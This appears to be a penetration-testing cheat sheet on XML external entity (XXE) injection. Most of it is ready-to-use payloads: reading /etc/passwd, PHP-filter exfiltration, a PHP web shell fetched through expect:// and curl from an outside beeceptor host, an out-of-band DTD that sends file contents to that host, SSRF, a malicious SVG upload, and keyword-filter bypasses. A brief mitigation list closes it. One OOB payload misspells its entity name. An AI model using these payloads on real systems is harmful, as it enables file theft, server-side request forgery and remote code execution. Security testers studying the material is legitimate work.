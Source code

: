 ```yaml
---
description: https://app.beeceptor.com/
---
```


# XML external entity (XXE) injection

<figure><img src="../../.gitbook/assets/image (431).png" alt=""><figcaption></figcaption></figure>

#### Identifying

1. **Identify XML User Input**: Look for web pages or forms that accept XML input from users. This can include forms that submit data in XML format to the server.
2. **Inspect Input Filtering and Sanitization**: Check if the application applies proper input filtering or sanitization to XML input. Lack of filtering or sanitization increases the risk of XXE vulnerabilities.
3. **Observe Response Handling**: Pay attention to how the application handles user input in the response. If the application reflects XML elements back to the user without encoding, it may be vulnerable to XXE.
4. **Analyze DTD Declaration**: Determine if the XML input includes a Document Type Definition (DTD) declaration. If present, it may allow for entity declaration and expansion, leading to XXE.
5. **Add Custom Entity**: Inject a custom entity into the XML input to test for XXE. This can be done by adding a DTD declaration and defining a new entity within it.
6. **Test Entity Replacement**: Verify if the application replaces the custom entity with its defined value in the response. If the value of the entity is reflected back, it indicates potential XXE vulnerability.
7. **Check Content-Type**: Even if the application primarily uses JSON format, try changing the Content-Type header to application/XML. Some applications may accept XML data even if they primarily handle JSON.
8. **Convert JSON to XML**: If necessary, convert JSON data to XML format using online tools. Submit the XML data to the application and test for XXE vulnerabilities as described above.

## Error Based XXE

### Read File

```xml
<!--Linux -->
<?xml version="1.0"?>
<!DOCTYPE hacktor [<!ENTITY read  SYSTEM "file:///etc/passwd">]>
<check>
    <proid>&read;</proid>
</check>
```

<figure><img src="../../.gitbook/assets/image (433).png" alt=""><figcaption></figcaption></figure>

## Blind Data Exfiltration

### PHP Filter&#x20;

{% code overflow="wrap" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE hacktor [<!ENTITY read SYSTEM "php://filter/convert.base64-encode/resource=/index.php"> ]>
<Check><proid>&read;</proid></Check>
```
{% endcode %}

## Code Execution

PHP Wrapper <mark style="color:red;">**expect://ls**</mark>

```bash
echo '<?php system($_REQUEST['cmd'])?>' > shell.php
#up server 
python3 -m http.server 80 
```

to execute&#x20;

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'https://h3ckt00r.free.beeceptor.com/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

{% hint style="warning" %}
The <mark style="color:red;">**expect**</mark> module is not enabled/installed on modern PHP servers by default, so this attack may not always work.
{% endhint %}

## SSRF Attack

```sml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://sub.vulnerable.com/admin"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### CDATA with XXE and SSRF

```xml
<?xml version="1.0"?>
<!DOCTYPE hacktor [ <!ENTITY read SYSTEM "https://h3ckt00r.free.beeceptor.com">]>
    <root>
        <data><![CDATA[&read;]]></data>
    </root>

```

## File Upload

{% code overflow="wrap" %}
```xml
<!-- exploit.svg -->

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">

  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
{% endcode %}

### OUT-OF\_BAND (OOB)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY % read SYSTEM "https://h3ckt00r.free.beeceptor.com/xxe.dtd" > ]>

```

in Server

{% code overflow="wrap" %}
```xml
<!DOCTYPE h3ckt00r [ <!ENTITY % read SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd" > ]>
<!ENTITY % test "<!ENTITY &#x25; snedfile SYSTEM 'https://h3ckt00r.free.beeceptor.com/?x=%read;'>">
%test;
%sendfile;
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (432).png" alt=""><figcaption></figcaption></figure>

### Automated OOB Exfiltration

{% code overflow="wrap" %}
```bash
0xN1ghtM4r3@htb[/htb]$ ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending a request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```
{% endcode %}



## How to Find XEE

**● XML file upload (e.g config files)**&#x20;

**● XML input fields**&#x20;

**● XML based APIs**&#x20;

**● XML based files (RSS, SVG)**

## how to bypass if filters " ENTITY " word

### Case1: **Manipulation (Uppercase/Lowercase)**

```xml
<!eNtItY h3ckt00r SYSTEM "file:///etc/passwd">
```

### Case2: Encoding

* **HTML encoding**:

```xml
<!&#69;NTITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- e -> &#69; -->
```

* Hexadecimal enconding

```xml
<!&#x45;NTITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- e -> &#x45; -->
```

* Whitespace Bypasses (Extra Spaces or Newlines) Or using Comment

```xml
<!EN TITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- OR --> 
<!EN
TITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- OR using Comment -->
<!E<!-- Comment -->NTITY xxe SYSTEM "file:///etc/passwd">
```

* CDATA

```xml
<!DOCTYPE root [
  <!ENTITY % data "<![CDATA[ENTITY]]">
  %data;
]>
```

## How TO Test XXE **Methodology**

1. Find XXE Data Entry Point
2. Change the XML object to anything.
3. Try to declare a reference entity or parameter entity. **`<!DOCTYPE hacktor [ <!ENTITY xxe  SYSTEM "Hello">]>`**&#x20;
4. test Blind get server and add reference&#x20;
5. if now XML format test **Xinclude**&#x20;

## **Mitigation and** Prevention

* Avoiding Outdated Components
* Using Safe XML Configurations
  * Disable referencing custom <mark style="color:red;">**`Document Type Definitions (DTDs)`**</mark>
  * Disable referencing <mark style="color:red;">**`External XML Entities`**</mark>
  * Disable <mark style="color:red;">**`Parameter Entity`**</mark><mark style="color:red;">**&#x20;**</mark><mark style="color:red;">**processing =>**</mark>&#x20;
    * ```php
      libxml_disable_entity_loader(true);
      ```
  * Disable support for <mark style="color:red;">**`XInclude`**</mark>
  * Prevent <mark style="color:red;">**`Entity Reference Loops`**</mark>
